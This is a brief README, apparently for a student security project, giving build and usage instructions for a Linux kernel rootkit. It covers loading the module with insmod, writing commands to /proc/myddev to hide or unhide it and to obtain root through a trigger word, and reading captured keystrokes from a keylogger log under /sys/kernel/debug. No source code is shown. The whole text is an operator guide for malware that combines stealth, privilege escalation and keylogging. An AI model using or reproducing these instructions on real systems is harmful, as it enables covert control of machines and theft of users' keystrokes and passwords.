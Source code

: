 # Security_Project

#How to build the project

Put the Make file and the rootkit.c in the same directory and run "make" command in terminal

#Usage

Loading a kernel module is done by typing:
insmod rootkit.ko

Unloading is performed by typing:
rmmod rootkit

Hiding the module is done by typing the following: 
echo “hide” > /proc/myddev

Unhiding: 
echo “unhide” > /proc/myddev.

Root access:
echo “rektt” > /proc/myddev.

View keys recorded by the keylogger:

cat /sys/kernel/debug/rootkit/keys 





